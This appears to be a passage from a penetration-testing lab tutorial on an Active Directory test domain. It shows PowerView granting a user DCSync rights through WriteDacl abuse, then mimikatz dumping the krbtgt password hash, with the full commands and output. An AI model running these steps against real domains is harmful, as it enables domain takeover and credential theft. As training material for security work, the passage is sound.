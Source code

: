 We can use `dacledit.py` to find those privileges, but instead of using the `-target` option, we will use `-target-dn` to specify the Domain Distinguished name:

---
---
# Abusing WriteDacl from Windows

On Windows, we can use `PowerView` to modify `DACLs`. We will use [PowerView](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1) or [SharpView](https://github.com/tevora-threat/SharpView) and the `Add-DomainObjectAcl` function with the option `-TargetIdentity $(Get-DomainSID)` to specify the object we want to modify, in this case, we are also querying the domain's SID with the function `Get-DomainSID`, next we need to specify the `-PrincipalIdenity luna` which is the account that we want to grant the rights and finally the option `-Rights DCSync`:

#### Modifying DACLs using PowerView

Granting Rights and Ownership

```powershell-session
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Add-DomainObjectAcl -TargetIdentity $(Get-DomainSID) -PrincipalIdentity luna -Rights DCSync -Verbose

VERBOSE: [Get-DomainSearcher] search base:
LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=luna)(name=luna)(displayname=luna))))
VERBOSE: [Get-DomainSearcher] search base:
LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(objectsid=S-1-5-21-1267651629-1192007096-1618970724)))
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=Luna,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
'DCSync' on DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=Luna,CN=Users,DC=INLANEFREIGHT,DC=LOCAL rights
 GUID '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2' on DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=Luna,CN=Users,DC=INLANEFREIGHT,DC=LOCAL rights
 GUID '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2' on DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=Luna,CN=Users,DC=INLANEFREIGHT,DC=LOCAL rights
 GUID '89e95b76-444d-4c62-991a-0facbeda640c' on DC=INLANEFREIGHT,DC=LOCAL
```

To perform `DCSync` from Windows, we can use [mimikatz](https://github.com/gentilkiwi/mimikatz):

#### DCSync from Windows using mimikatz

Granting Rights and Ownership

```cmd-session
C:\Tools> mimikatz.exe "lsadump::dcsync /domain:inlanefreight.local /user:krbtgt /csv"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /domain:inlanefreight.local /user:krbtgt /csv
[DC] 'inlanefreight.local' will be the domain
[DC] 'DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502     krbtgt  dafbbaba2fef3addbba5b4fedfc38dab        514
```
